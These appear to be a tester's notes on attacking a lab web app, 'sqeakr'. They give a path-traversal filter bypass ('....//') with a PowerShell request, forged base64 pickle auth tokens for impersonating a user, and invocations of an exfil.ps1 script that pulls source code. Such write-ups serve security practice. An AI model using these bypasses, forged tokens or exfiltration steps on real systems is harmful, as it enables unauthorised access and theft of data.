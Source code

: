 notes

See avatars-endpoint-wordlist  
There is an lfi in place on /api/avatars/  
The filter can be bypassed by using ...//  
In fact it seems like it looks for '../' in a the parameter and removes it.  
Through this we have  directory listing on the entire application directory  

We can list directorys by using:
```powershell
iwr -uri http://sqeakr/api/avatars/....// | select content
```


We have a partial auth by manipulating the auth token supplied in the response to a login attempt on /api/login  
The authToken on a unsuccessful login attempt is:  
```
gAN9cQAoWAQAAABhdXRocQFLAFgGAAAAdXNlcmlkcQJYJAAAADAwMDAwMDAwLTAwMDAtNDAwMC04MDAwLTAwMDAwMDAwMDAwMHEDdS4=
```
We can change the id portion to a known user(in this case tomjones):  
```
gAN9cQAoWAQAAABhdXRocQFLAFgGAAAAdXNlcmlkcQJYJAAAADMxZGE4YmExLWNlMGEtNDVmZC05YzcyLTU1NDc3YTFkM2Y2OHEDdS4i
```
We can get users id's from: /api/sqeaks

the authtoken and account set in local storage


Not sure why but today it worked fine with tom jones. We can view his profile etc
Here is the auth token to set in local storage(I had a space in the first attempt):
```
gAN9cQAoWAQAAABhdXRocQFLAFgGAAAAdXNlcmlkcQJYJAAAADMxZGE4YmExLWNlMGEtNDVmZC05YzcyLTU1NDc3YTFkM2Y2OHEDdS4i
``
the preview api function takes the base64encoded filename as a parementer

With the Directory listing on /api/avatars & the lfi on /api/profile/preview we can effectively turn this from a blackbox type test to a whitebox test.  
We can exfil the entire project with exfil.ps1.  
Grab the project root:  
```powershell
./exfil.ps1
```
Grab a specific Folder:  
```powershell
./exfil.ps1 -OutputDir ./sqeakr-exfil/api -BaseFolder '....//api'
```

The most interesting directories are:

- /api
- /sqeakr
- /main
- /templates/pages

